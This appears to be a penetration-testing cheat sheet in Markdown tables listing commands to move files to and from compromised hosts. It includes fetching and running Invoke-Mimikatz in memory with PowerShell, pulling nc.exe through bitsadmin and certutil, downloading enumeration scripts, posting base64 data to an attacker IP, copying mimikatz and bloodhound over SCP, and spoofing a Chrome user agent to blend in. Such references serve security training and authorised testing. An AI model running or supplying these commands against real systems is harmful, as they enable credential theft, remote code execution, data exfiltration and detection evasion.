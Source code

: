 # File Transfer Commands

## PowerShell
| Command | Description |
|---------|-------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |

## Bitsadmin
| Command | Description |
|---------|-------------|
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |

## Certutil
| Command | Description |
|---------|-------------|
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |

## Wget
| Command | Description |
|---------|-------------|
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |

## cURL
| Command | Description |
|---------|-------------|
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |

## PHP
| Command | Description |
|---------|-------------|
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |

## SCP
| Command | Description |
|---------|-------------|
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |

## User-Agent Spoofing (PowerShell)
| Command | Description |
|---------|-------------|
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

